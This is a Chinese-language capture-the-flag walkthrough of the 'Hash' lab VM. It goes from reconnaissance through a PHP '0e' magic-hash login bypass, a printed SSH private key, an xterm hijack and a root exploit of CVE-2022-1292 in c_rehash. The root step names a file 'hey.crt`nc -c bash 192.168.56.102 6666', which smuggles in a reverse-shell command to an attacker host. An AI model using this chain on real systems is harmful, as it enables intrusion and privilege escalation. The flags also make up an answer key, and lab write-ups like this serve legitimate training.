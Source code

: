# Hash

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-02-05

✔️ MD5 // 7707cf5723630fe8b72cd9624594e902

☠ Root // 36

💀 User // 37

📝Notes //
Hack and Fun!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.110
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.110
Host is up (0.00055s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 1e:fb:86:3d:cf:26:a2:a0:ae:b0:00:61:0b:41:cb:ab (RSA)
|   256 80:8e:46:7b:1d:6e:13:74:22:89:ad:91:b4:44:64:ec (ECDSA)
|_  256 71:e5:e1:4f:34:16:de:ec:b5:c4:fe:f5:0a:a2:ee:fc (ED25519)
80/tcp   open  http          nginx 1.14.2
|_http-title: LOGIN
|_http-server-header: nginx/1.14.2
3389/tcp open  ms-wbt-server xrdp
```

## web 服务

查看原始数据包

```html
┌─[randark@parrot]─[~]
└──╼ $http get http://192.168.56.110/
......
<!doctype html>
<html lang="en">
<title>LOGIN</title>

    <form class="form-signin" action="check.php" method="post">

      <input type="text" autocomplete="off" id="user" name="user" name="user" placeholder="Username" required autofocus>
      <input type="password" name="password" id="password" placeholder="Password" required>
      <input type="submit" value="Login">
    </form>
<!-- Marco, remember to delete the .bak file-->
  </body>
</html>
```

尝试爆破

```shell
┌─[randark@parrot]─[~]
└──╼ $ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.110/FUZZ.bak -t 50
......
[Status: 200, Size: 273, Words: 26, Lines: 15, Duration: 16ms]
    * FUZZ: check
```

查看数据

```php title="check.bak"
<?php
    // Login part.
    $pass = $_POST['password'];
    //marco please dont use md5, is not secure.
    //$passwordhashed = hash('md5', $pass);
    $passwordhashed = hash('sha256',$pass);
    if ($passwordhashed == '0e0001337') {
        //Your code here
    }
    else{
        //Another code here
    }
    //To finish
?>
```

由于采用了 `==` 弱比较的方式，所以可以直接采用 `0e` 绕过

相关数据可以参考 [hashes/sha256.md at master · spaze/hashes](https://github.com/spaze/hashes/blob/master/sha256.md)

成功登陆之后，即可得到

```plaintext
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAxiKdFmWJiVfVYaNGov1xuh0/nrXnNsx2s6g5IoIJrmkX+9qzt2US
ZWMgrjLzAyB3wrLFysCPh4F8GU87pJkbpc0prM/8vB2WJCg5ktDQ6o0vwH219sPKUS4e9R
s2bPz7CJX5bzFDQ3B6ZUOs1itZ1t/uq38XuCxDjI8XxU6fusB3Rjz2XIombtFwo78W1pkX
VnQhzZOQ+b8UaC5lZeKatcZ0xdc0iQgiAbcRN7sXYCDMxMmo9KsxqzWjd56hLrv1nsTy2t
VBXzDRw+5JU4AJlGDRB/Upq/oKbGDCOmgNUsJPQKW4TgEAWhUa+t/ue2Bs/wFjCY7w/LkY
pK4bnY5eHQAAA8C/pv23v6b9twAAAAdzc2gtcnNhAAABAQDGIp0WZYmJV9Vho0ai/XG6HT
+etec2zHazqDkiggmuaRf72rO3ZRJlYyCuMvMDIHfCssXKwI+HgXwZTzukmRulzSmsz/y8
HZYkKDmS0NDqjS/AfbX2w8pRLh71GzZs/PsIlflvMUNDcHplQ6zWK1nW3+6rfxe4LEOMjx
fFTp+6wHdGPPZciiZu0XCjvxbWmRdWdCHNk5D5vxRoLmVl4pq1xnTF1zSJCCIBtxE3uxdg
IMzEyaj0qzGrNaN3nqEuu/WexPLa1UFfMNHD7klTgAmUYNEH9Smr+gpsYMI6aA1Swk9Apb
hOAQBaFRr63+57YGz/AWMJjvD8uRikrhudjl4dAAAAAwEAAQAAAQEAlMcLA/VMmGfu33kW
Im+DRUiPLCLVMo3HmFH6TRIuKNvbWY+4oT5w2NbdhFDXr4Jiyz0oTn3XiN3PDMY1N/yMCS
0MXSp0UeE5i3709Gx+Y5GOyNDcoSYVtm2Wa2B6ts4jxievfDIWmv5LudxeXReCR1oxQm+V
pQL/2fzc0ZifUj+/VSSIltgDKHxEfebfK0xShgXTSlUhickSapre2ArSdplM/rYvZLDWmd
iGkGD3VnAgRtloy5v32vPI3M++OCrHbLxgff4odAjawejPPHVj3beMgCrqwb/CCNKEyWKc
Jkjjt7nY/GUW4RfzM34LplezpmvrsLkTVMAb3KflDkDPFQAAAIBrP6Pnz0t8d/M+4hEb66
IkrftwqMC+c8Z0HMGURTMco7jXfoXaVP3eWCafEZ/RobZm0Ob1mnBZ574Qn8ai5VLPyJz6
5Ibe1Z6LWu6yCL/VFNyksnVARIuVjQt9pXpzbXOfn0H4ZHRBFyRhNHGjnft1PA59O30Dpw
UVz9eO3K2EqQAAAIEA4baQFa4RYnZ/YK4F6acjsAPhk88poLjDT86eCQ08wO5+d8BGuSHE
+BAqCZJuJTvvozYpZ5NFW4OEG9+T/HX2tvB6Ucc1pbQNNnB7CBp/VoLLTW+nuU3YJbgYlx
VnWRRudD6K7wjZEHJ44XzLdTy2wyeUvZw/iJRZmqQ5hxXCD1MAAACBAOC4ucZotWaq/pb5
V5RqLV8HU+DWFHAIfvqtYI5wCcZmAjGtXgLF1HY9MZ3bRPz2/m7cB44cdgCRbtmqBvnOvn
6h9AS4gr1HOJEpjgohkxBTc2Mf/dpCCdcNCX2Xy5ExPSilbS2rUHHCIU2J/yZGTths8fBR
cEjmSYvt0qFY/t7PAAAACm1hcmNvQGhhc2g=
-----END OPENSSH PRIVATE KEY-----
```

## User - marco

```shell
┌─[randark@parrot]─[/tmp]
└──╼ $nano id_rsa
┌─[randark@parrot]─[/tmp]
└──╼ $chmod 600 id_rsa
┌─[randark@parrot]─[/tmp]
└──╼ $ssh -i id_rsa marco@192.168.56.110
Linux hash 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 16 02:45:22 2024 from 192.168.56.102
marco@hash:~$ whoami
marco
```

### flag - user

```shell
marco@hash:~$ cat user.txt
hashmanready
```

### 环境探测

```shell title="ls -lh /home/maria/"
total 4.0K
-rwxr-xr-x 1 maria maria 25 Feb  5  2021 myterm.sh
```

查看文件内容

```shell
export DISPLAY=:10
xterm
```

那简单，SSH 可以转发 X11 会话连接，将 SSH 的会话通过 `-XY` 启动 X11 转发，并且在本地启动 X11 会话客户端（例如 `X410`），然后运行这个脚本

```shell
marco@hash:/home/maria$ ./myterm.sh
```

稍等片刻，应该会有两个 X11 会话窗口出现

![xterm](img/image_20240218-161803.png)

其中就有 `maria` 用户的会话

## User - maria

将 `maria` 的 xterm 会话反弹到监听机

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 8888
[16:19:54] Welcome to pwncat 🐈!
[16:20:08] received connection from 192.168.56.110:43718
[16:20:09] 0.0.0.0:8888: normalizing shell path
           192.168.56.110:43718: registered new host w/ db
(local) pwncat$ back
(remote) maria@hash:/home/maria$ whoami
maria
```

然后探测环境

```shell title="sudo -l"
Matching Defaults entries for maria on hash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User maria may run the following commands on hash:
    (ALL : ALL) NOPASSWD: /usr/bin/c_rehash
```

### 尝试提权

参考：[alcaparra/CVE-2022-1292: CVE-2022-1292 OpenSSL c_rehash Vulnerability - POC](https://github.com/alcaparra/CVE-2022-1292)

```shell
(remote) maria@hash:/home/maria$ nano 
```

然后在`nano`编辑器中输入

```plaintext
-----BEGIN CERTIFICATE-----
```

然后`Ctrl`+`x`，保存文件，使用以下作为文件名

```plaintext
hey.crt`nc -c bash 192.168.56.102 6666
```

然后执行

```shell
(remote) maria@hash:/home/maria$ sudo /usr/bin/c_rehash .
```

## User - root

```shell
┌─[✗]─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 6666
[18:56:24] Welcome to pwncat 🐈!
[19:04:00] received connection from 192.168.56.110:46698
[19:04:01] 192.168.56.110:46698: registered new host w/ db
(local) pwncat$ back
(remote) root@hash:/home/maria# whoami
root
```

### flag - root

```shell
(remote) root@hash:/root# cat root.txt 
hashhater
```
